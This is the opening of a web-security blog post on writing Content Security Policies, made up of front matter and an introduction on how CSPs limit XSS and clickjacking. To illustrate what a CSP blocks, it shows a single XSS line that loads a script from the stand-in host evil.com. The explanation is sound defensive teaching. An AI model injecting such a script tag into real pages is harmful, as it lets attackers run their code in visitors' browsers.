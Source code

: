 ```yaml
---
title: "Implementing Content Security Policies, The Easy Way."
date: 2021-05-04
# weight: 1
# aliases: ["/first"]
tags: ["playwright", "js", "content security policy", "appsec" ]
author: "Kevin Pham"
# author: ["Me", "You"] # multiple authors
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "CSP's are a pain to write for legacy sites, but it doesn't have to be."
canonicalURL: "https://deoxy.net/posts/csp"
disableHLJS: false # to disable highlightjs
disableShare: true
disableHLJS: true
enableMermaid: true
enableAsciiCinema: false
enableECharts: false
hideSummary: false
searchHidden: false
ShowReadingTime: false
ShowBreadCrumbs: false
ShowPostNavLinks: false
cover:
    image: "csp.png" # image path/url
    alt: "Generating a CSP using a playwright script" # alt text
    caption: "" # display caption under cover
    relative: true # when using page bundles set this to true
    hidden: false # only hide on current single page
editPost:
    URL: "https://gitlab.com/deoxykev/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


# What's a CSP? 
One of the mitigating defenses for [XSS attacks](https://portswigger.net/web-security/cross-site-scripting) and [Clickjacking attacks](https://portswigger.net/web-security/clickjacking) is a good Content Security Policy (CSP). While not a pancea, it can effectively limit the severity of any exploits by constraining the XSS payload size to the injection window, which is typically limited to a few characters. Instead of externally loading a payload like:
```js
<script src="https://evil.com/payload.js"/>
```

the entire payload must be encoded in the script evaluation window, effectively preventing nasty frameworks like [BeEF](https://beefproject.com/) from being loaded.
